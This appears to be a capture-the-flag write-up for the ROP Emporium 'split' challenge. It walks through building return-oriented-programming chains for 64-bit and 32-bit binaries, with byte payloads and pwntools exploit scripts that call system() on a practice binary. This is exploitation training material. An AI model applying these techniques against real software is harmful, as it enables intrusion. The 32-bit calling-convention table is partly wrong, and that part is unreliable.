





# SPIT

[Split]: https://ropemporium.com/challenge/split.html

- `NX bit` (*no-execute*) is a technology used in [CPUs](https://en.wikipedia.org/wiki/CPU) to segregate areas of memory for use by either storage of processor instructions (*code*) or for storage of data; so we can suppose that we cannot force the program to execute our instruction, but we must use pieces of code already written inside the binary.

```bash
rabin2 -I split   
...
nx true
...
```

- There is, somewhere in the code, a usefful string, `/bin/cat flag.txt`, and a `system()` call

- the thrash padding is the same as `ret2win` 

We must take into account how parameters are passed to functions in an architecture

**64bit**

> When functions are called, especially between software and libraries /  kernel. There is a standard that is followed known as the [application binary interface](https://en.wikipedia.org/wiki/Application_binary_interface) (ABI).  One part of the ABI is known as the Calling Convention. This  convention defines how parameters are passed in to functions. There are  many calling conventions that differ based on OS, CPU Architecture and  sometimes the compiler. Since we know we are using a 64 bit binary on a  Linux OS we know that we are using the [System V AMD64 ABI](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI). The convention states that parameters passed in to functions will be passed in on CPU registers in the following order

| rax     | rdi  | rsi  | rdx  | r10  | r8   | r9   |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |

**32bit**

> This time we are using a 32 bit binary so we need to set up our exploit in a way that will make sense to the [CDECL calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl).

| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| eax     | ebx  | ecx  | edx  | esi  | edi  | ebp  |

## 64 bit

We need to build our **ROP chain**, lets find all stuff we need:



Our **useful string** is at `0x601060` and we have found a `usefulFunction()` at `0x400742`, we can check if `system()` is called in there




And we got `system()` address: `0x00400560`

Last but not least our `gadget`, we have to get the value into the `RDI`, with limitation of only controlling the stack, we can use `ropper`



gotcha, it's `0x004007c3`.

Now we can build our Rop chain, remembering the `Little Endian` notation:

| thrash padding | gadet `pop rdi; ret`               | useful string                      | system                             |
| -------------- | ---------------------------------- | ---------------------------------- | ---------------------------------- |
| "\x55"*40      | "\xc3\x07\x40\x00\x00\x00\x00\x00" | "\x60\x10\x60\x00\x00\x00\x00\x00" | "\x60\x05\x40\x00\x00\x00\x00\x00" |

```bash
python -c 'print "\x55"*40 + "\xc3\x07\x40\x00\x00\x00\x00\x00" + "\x60\x10\x60\x00\x00\x00\x00\x00" + "\x60\x05\x40\x00\x00\x00\x00\x00"' | ./split 
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("split")
io = process(elf.path)

payload = b'A'*40
payload += p64(0x004007c3)
payload += p64(0x601060)
payload += p64(0x00400560)

io.sendline(payload)
print(io.recvall())
```

## 32 bit

Same story as before

**Usefull String** address is `0x0804a030`



**System()** address is `0x080483e0`



Here we do not need any `gadget`, 32 bit stonks.

Now we can build our Rop chain, remembering the `Little Endian` notation:

| thrash padding | system             | 4 thrash bits | useful string      |
| -------------- | ------------------ | ------------- | ------------------ |
| "\x55"*44      | "\xe0\x83\x04\x08" | "\x55"*4      | "\x30\xa0\x04\x08" |

we also need 4 extra bytes of thash because the first value (32 bit = 4 bytes) of the stack will be popped out in the `$epb` register in the entry section of the `system` function (it happens in all functions)

```bash
python -c 'print "\x55"*44 + "\xe0\x83\x04\x08" + "\x55"*4 + "\x30\xa0\x04\x08"' | ./split 
```

### pwntools

```python
from pwn import *

elf = context.binary = ELF("split32")
io = process(elf.path)

payload = b'A'*44
payload += p32(0x080483e0)
payload += b'A'*4
payload += p32(0x0804a030)

io.sendline(payload)
print(io.recvall())
```

